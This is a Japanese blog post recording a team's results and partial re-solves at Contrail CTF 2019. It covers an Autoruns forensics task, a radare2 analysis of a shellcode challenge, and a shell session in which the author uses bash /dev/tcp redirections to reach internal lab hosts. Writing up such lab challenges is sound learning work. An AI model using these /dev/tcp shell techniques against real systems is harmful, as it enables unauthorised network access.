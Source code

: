--
date: 2020-01-04
description: 'Contrail CTF 参加記録'
tags:
 - CTF
---

# Contrail CTF 参加記録と解き直し

SCBで出て, Score302, 25位でした。
そのうち, 私は以下の問題を解きました。

 - debug_port: network
 - Persistence: forensics
 
では, 解き直しをやっていき

## forensics
### Persistence
`.arn`ファイルが与えられます。  
これはAutorunsの拡張子なので, 開いて中身を確認します。

Task Schedulerに`\Evil`というプロセスが残っているので中身を確認するとflagがあります。

### alice's password
正しくunzipできないzipファイルとdataが与えられます。

## Pwn
### EasyShellCode
20Byte(0x14)までしかread()してくれない。
そのあとはシェルコードを実行してくれる。

radare2で逆アセンブルする。

```
# r2 problem 
[0x00000710]> aaaa
[Cannot analyze at 0x00000700g with sym. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[Cannot analyze at 0x00000700ac)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00000710]> s main
[0x0000081a]> pdd
/* r2dec pseudo code output */
/* problem @ 0x81a */
#include <stdint.h>
 
int32_t main (void) {
    rax = *(fs:0x28);
    *((rbp - 8)) = rax;
    eax = 0;
    r9d = 0;
    r8d = 0;
    rax = mmap (0, 0x64, 7, 0x22, r8d, r9d);
    *((rbp - 0x10)) = rax;
    eax = 0;
    printf ("Input your shellcode: ");
    rax = stdout;
    fflush (*(obj.stdout));
    rax = *((rbp - 0x10));
    read (0, rax, 0x14);
    rax = *((rbp - 0x10));
    edx = 7;
    esi = 0x64;
    rdi = rax;
    mprotect ();
    rax = rbp - 0x10;
    rdx = 0;
    rdi = 0;
    rsi = 0;
    rbx = 0;
    rcx = 0;
    r8 = 0;
    r9 = 0;
    r10 = 0;
    r11 = 0;
    r12 = 0;
    r13 = 0;
    r14 = 0;
    r15 = 0;
    rbp = 0;
    return uint64_t (*rax)() ();
}
```

最後の行で`uint64_t (*rax)() ();`を実行しているので, `read (0, rax, 0x14);`でシェルコードを読み込めれば問題なく実行できそう。  


これは, 引数が空で返り値がuint64_tな関数へのポインタであり, raxから始まるアドレスに格納されているアドレスを間接参照で読み出します。

 - [詳しくはこちらを見ると良い](https://www.sigbus.info/compilerbook#type)


## Misc
### Let's connct
```
$ nc 114.177.250.4 2999
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ help
help
GNU bash, version 4.4.20(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                            history [-c] [-d offset] [n] or hist>
 (( expression ))                        if COMMANDS; then COMMANDS; [ elif C>
 . filename [arguments]                  jobs [-lnprs] [jobspec ...] or jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] name[=value] ...
 alias [-p] [name[=value] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d delim] [-n count] [-O or>
 bind [-lpsvPSVX] [-m keymap] [-f file>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | dir]
 caller [expr]                           pwd [-LP]
 case WORD in [PATTERN [| PATTERN]...)>  read [-ers] [-a array] [-d delim] [->
 cd [-L|[-P [-e]] [-@]] [dir]            readarray [-n count] [-O origin] [-s>
 command [-pVv] command [arg ...]        readonly [-aAf] [name[=value] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NAME [in WORDS ... ;] do COMM>
 compopt [-o|+o option] [-DE] [name ..>  set [-abefhkmnptuvxBCHP] [-o option->
 continue [n]                            shift [n]
 coproc [NAME] command [redirections]    shopt [-pqsu] [-o] [optname ...]
 declare [-aAfFgilnrtux] [-p] [name[=v>  source filename [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f filename] [na>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a name] [command [argume>  true
 exit [n]                                type [-afptP] name [name ...]
 export [-fn] [name[=value] ...] or ex>  typeset [-aAfFgilnrtux] [-p] name[=v>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [first] [last] o>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] name [name ...]
 for NAME [in WORDS ... ] ; do COMMAND>  unset [-f] [-v] [-n] [name ...]
 for (( exp1; exp2; exp3 )); do COMMAND>  until COMMANDS; do COMMANDS; done
 function name { COMMANDS ; } or name >  variables - Names and meanings of so>
 getopts optstring name [arg]            wait [-n] [id ...]
 hash [-lr] [-p pathname] [-dt] [name >  while COMMANDS; do COMMANDS; done
 help [-dms] [pattern ...]               { COMMANDS ; }
bash-4.4history
history
    1  help
    2  history
bash-4.4$ history
history
    1  help
    2  history
    3  history
bash-4.4$ exec <> /dev/tcp/172.17.0.10/3000
exec <> /dev/tcp/172.17.0.10/3000
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.10/3000: Connection refused
bash-4.4$ ls
ls
bash
bin
dev
flag
lib
lib32
lib64
bash-4.4$ echo "$(<flag)"
 echo "$(<flag)"
Flag has moved to 3000 port on 172.17.0.5 .
bash-4.4$ exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
```

## ref
 - [Contrail CTF writeup by aqua](https://www.aquablog.site/entry/2020/01/04/000000)
 - [ContrailCTF\_2019のwriteup by Tsubasa](http://szarny.hatenablog.com/entry/2020/01/04/ContrailCTF_2019%E3%81%AEwriteup)
 - [Contrail CTF WriteUp by ryoto](https://www.ryotosaito.com/blog/?p=400)
 - [Contrail CTF 2019のWriteup by ptr-yudai](https://ptr-yudai.hatenablog.com/entry/2020/01/04/000225)
